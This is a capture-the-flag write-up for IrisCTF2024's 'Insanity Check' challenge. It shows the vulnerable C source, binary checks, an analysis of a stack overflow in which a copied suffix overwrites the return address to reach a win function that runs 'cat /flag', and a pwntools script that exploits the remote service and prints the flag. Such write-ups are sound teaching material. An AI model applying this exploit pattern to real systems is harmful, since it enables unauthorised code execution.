

# Insanity Check [254 Solves]

## Description



> I've tried the brand new michael-ld linker on my hello world program. I'm pretty sure it's super safe now.
>
> `nc insanity-check.chal.irisc.tf 10003` `insanity-check.tar.gz`
>
> By: lambda

## Short Solution

Stack Overflow, ret2win

## Solution

### Source Code

```console
$ tar ztf insanity-check.tar.gz
insanity-check/
insanity-check/vuln
insanity-check/vuln.c
```

vuln.c

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void rstrip(char* buf, const size_t len) {
    for (int i = len - 1; i >= 0; i--)
        if (buf[i] == '\n') {
            buf[i] = '\0';
            break;
        }
}

const char suffix[] = "! Welcome to IrisCTF2024. If you have any questions you can contact us at test@example.com\0\0\0\0";

int main() {
    char message[128];
    char name[64];
    fgets(name, 64, stdin);
    rstrip(name, 64);

    strcpy(message, "Hi there, ");
    strcpy(message + strlen(message), name);
    memcpy(message + strlen(message), suffix, sizeof(suffix));

    printf("%s\n", message);
}

__attribute__((section(".flag")))
void win() {
    __asm__("pop %rdi");
    system("cat /flag");
} 
```

### Basic file checks

```console
$ file vuln
vuln: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=c2d6acffbfd9fd36c0a8089feffe3ce53f3eabba, for GNU/Linux 4.4.0, not stripped

$ checksec vuln
[*] '/root/ctf/IrisCTF2024/binary_exploitation/insanity-check/vuln'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x40000000)
```

### Initial Analysis

```console
$ readelf -s vuln | grep win
    23: 000000006d6f632e    18 FUNC    GLOBAL DEFAULT   28 win

$ unhex "000000006d6f632e" | rev | hd
00000000  2e 63 6f 6d 00 00 00 00                           |.com....|
00000008
```

We can occur Stack Overflow by `memcpy` and set stuff to a return value of the main function.
The win function address is `0x000000006d6f632e`, and `.com\0\0\0\0` which is `suffix` variable last 8 bytes is `0x000000006d6f632e`.
Thus, by adjusting the input size to overwrite the return value of the main function to 2e636f6d00000000, we can call the win function.

### Solver

solver.py

```python
from pwn import *

# context.log_level = "DEBUG"
context.terminal = ["tmux", "split-window", "-h"]

elf = ELF("./vuln", checksec=False)


def conn() -> pwnlib.tubes:
    if args.REMOTE:
        io = remote("insanity-check.chal.irisc.tf", 10003)

    elif args.GDB:
        gdbscript = """
        b *main+310
        c
        """
        io = gdb.debug([elf.path], gdbscript=gdbscript)
    else:
        io = elf.process()

    return io


def main():
    payload = b"A" * 56 + b"\n"
    with conn() as io:
        io.send(payload)

        io.interactive("")


if __name__ == "__main__":
    main()
```

```console
$ python3 solver.py REMOTE
[+] Opening connection to insanity-check.chal.irisc.tf on port 10003: Done
[*] Switching to interactive mode
== proof-of-work: disabled ==
irisctf{c0nv3n13nt_symb0l_pl4cem3nt}

[*] Closed connection to insanity-check.chal.irisc.tf port 10003
```

Got the flag.

## Flag

irisctf{c0nv3n13nt_symb0l_pl4cem3nt}
